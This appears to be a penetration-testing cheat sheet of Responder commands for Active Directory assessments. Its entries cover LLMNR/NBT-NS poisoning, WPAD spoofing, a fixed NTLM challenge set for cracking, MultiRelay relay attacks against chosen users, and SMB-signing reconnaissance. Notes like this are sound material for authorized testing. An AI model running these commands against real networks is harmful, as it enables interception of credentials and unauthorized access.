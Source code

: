 # responder

% responder, LLMNR, NBT-NS, Poisoning, man in the middle

## responder launch
#assessment/AD #target/remote #cat/ATTACK/MITM 
```
responder –I eth0
```

## responder launch - analyze mode (no poisoning)
#assessment/AD #target/remote #cat/RECON 
```
responder –I eth0 -A
```

## responder launch with wpad file 
#assessment/AD #target/remote #cat/ATTACK/MITM 
```
responder -I eth0 --wpad
```

## responder http on
#assessment/AD #target/local #cat/UTILS
```
sed -i 's/HTTP = Off/HTTP = On/g' /opt/tools/Responder/Responder.conf && cat /opt/tools/Responder/Responder.conf | grep --color=never 'HTTP ='
```

## responder http off
#assessment/AD #target/local #cat/UTILS
```
sed -i 's/HTTP = On/HTTP = Off/g' /opt/tools/Responder/Responder.conf && cat /opt/tools/Responder/Responder.conf | grep --color=never 'HTTP ='
```

## responder smb on
#assessment/AD #target/local #cat/UTILS
```
sed -i 's/SMB = Off/SMB = On/g' /opt/tools/Responder/Responder.conf && cat /opt/tools/Responder/Responder.conf | grep --color=never 'SMB ='
```

## responder smb off
#assessment/AD #target/local #cat/UTILS
```
sed -i 's/SMB = On/SMB = Off/g' /opt/tools/Responder/Responder.conf && cat /opt/tools/Responder/Responder.conf | grep --color=never 'SMB ='
```

## responder challenge set
#assessment/AD #target/local #cat/UTILS
Set the NTLM challenge for cracking

= challenge: 1122334455667788
```
sed -i 's/Challenge =.*$/Challenge = <challenge>/g' /opt/tools/Responder/Responder.conf && cat /opt/tools/Responder/Responder.conf | grep --color=never 'Challenge ='
```

## responder challenge reset
#assessment/AD #target/local #cat/UTILS
```
sed -i 's/Challenge =.*$/Challenge = 1122334455667788/g' /opt/tools/Responder/Responder.conf && cat /opt/tools/Responder/Responder.conf | grep --color=never 'Challenge ='
```

## multirelay attack - user filtered (previous disable HTTP and SMB in Responder.conf)
#assessment/AD #target/serve #cat/ATTACK/MITM 
```
multirelay -t <ip> -u <user1> <user2>
```

## multirelay attack - all user (previous disable HTTP and SMB in Responder.conf)
#assessment/AD #target/serve #cat/ATTACK/MITM 
```
multirelay -t <ip> -u ALL
```

## runfinger - Responder-related utility which will finger a single IP address or an IP subnet and will reveal if a target requires SMB Signing or not.
#assessment/AD #target/remote #cat/RECON 
```
runfinger -i <network_range>
```
